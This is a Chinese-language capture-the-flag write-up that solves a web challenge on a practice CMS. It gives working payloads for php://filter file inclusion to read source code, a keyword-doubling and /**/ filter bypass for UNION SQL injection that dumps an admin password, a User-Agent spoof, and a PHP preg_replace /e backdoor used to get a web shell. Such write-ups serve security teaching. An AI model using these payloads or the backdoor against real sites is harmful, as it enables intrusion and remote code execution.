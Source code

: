 打开网页，看到一个客户留言系统，仔细审查页面

## 1.看到留言 版，尝试xss,点击预览之后，页面提示，xss只是为了娱乐，换条思路



## 2.仔细阅读页面，发现一句类似提示的东西

![](images/AEF28CB38E894752B79273C14001664Cclipboard.png)

可能需要我们拿到shell，并且登陆到后台就知道了



## 3.查看网页源码，发现一个链接

view-source:http://cms.nuptzj.cn/about.php?file=sm.txt

打开看到sm.txt的内容，内容暴露了admin表结构，后面可能需要sql注入

![](images/785E941FD86C443D97D519B7204FCD6Aclipboard.png)

还暴露了，后台文件：

![](images/A06285B0E17243B7A2B15881C0871C9Eclipboard.png)



## 4.?file=sm.txt可能存在文件包含

payload:http://cms.nuptzj.cn/about.php?file=index.php 发现页面显示了index.php源码

但是结构比较乱，可以尝试伪协议：

payload:http://cms.nuptzj.cn/about.php?file=php://filter/read=convert.base64-encode/resource=index.php

成功读出网页源码。

尝试读其他后台文件源码：

在尝试读取config.php文件时，页面提示，file参数不能为空，可能存在限制。



最后读出，index.php,passencode.php,say.php,文件内容，但是没有啥大发现。



后面发现about.php文件还没有查看，

payload:http://cms.nuptzj.cn/about.php?file=php://filter/read=convert.base64-encode/resource=about.php

读出about.php的源码，

![](images/45DAA21C179248EAB549918C68C565B6clipboard.png)

发现对config.php和loginxlcteam做了限制，loginxlcteam文件提示，敏感目录，禁止查看！但是...也许可以访问。



## 5.尝试访问：

http://cms.nuptzj.cn/loginxlcteam/

![](images/73831B36C78347DCB265860667CD6497clipboard.png)

看到后台页面，但是需要登陆，结合前面的表结构，可能需要注入，但是多次尝试也没有注入成功。



在这里卡了好一会儿，最后看了一下wp，发现index页面的搜索框还没有查看.......

![](images/3E8ED940966A429B9FC816057A061F26clipboard.png)



## 6.读出so.php文件源码

![](images/354AE68141534AADA90A69A2C2A5F04Fclipboard.png)

文件还限制了，必须使用Xlcteam Browser浏览器，此时只需将bp的http头改为：

User-Agent: Xlcteam Browser即可

![](images/252CB267DB9948C7890840CC18E5C922clipboard.png)

$id可能存在注入，但是经过了antinject.php的过滤，



## 7.所以查看antinject.php的源码，

![](images/0D63B0695A3C4A90B2342B6F7D5EB6F7clipboard.png)

发现该文件将关键字替换为了空。此处可以采用重写绕过，比如：seselectlect,空格可以使用/**/绕过



## 8.此时尝试sql注入

### 8.1采用union注入

### 8.2爆字段

payload:soid=1/**/uNunionion/**/seselectlect/**/null,null,null,null

此时页面和soid=1/**/uNunionion/**/seselectlect/**/null,null,null页面不一样，说明该查询返回四个字段

### 8.3查内容

此时已经知道了表结构，直接查询内容就可以了

payload:soid=1/**/uNunionion/**/seselectlect/**/null,(seselectlect/**/userpapassss/**/frfromom/**/admadminin),null,null



此时需要将soid=-100查询一个不存在的字段，使其报错，无法显示，才会显示union查询的内容。

返回：

![](images/0DAFD078F87D41E98E516C0B80B9F82Aclipboard.png)

返回的字符，看起来向ascii码。



## 9.解ascii

```javascript
<?php
$str=array(102,117,99,107,114,117,110,116,117);
for($i=0;$i<count($str);$i++){
    echo chr($str[$i]);//fuckruntu
}
```



## 10.登陆后台

username=admin&userpass=fuckruntu

![](images/44BC205FDB4F4ADC8D3965C05D447AB4clipboard.png)



## 11.提示根目录存在xlcteam.php文件

刚才呢任意文件读取漏洞，刚好可以读取，根目录文件内容。

xlcteam.php

```javascript
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>

//payload:www=preg_replace
//将wtf接收的内容放到preg_replace里面执行
//此时wtf开启了preg_repalce的/e模式
```



## 12.蚁剑：

![](images/33D53ADE699345D6B47EAF54CD822348clipboard.png)







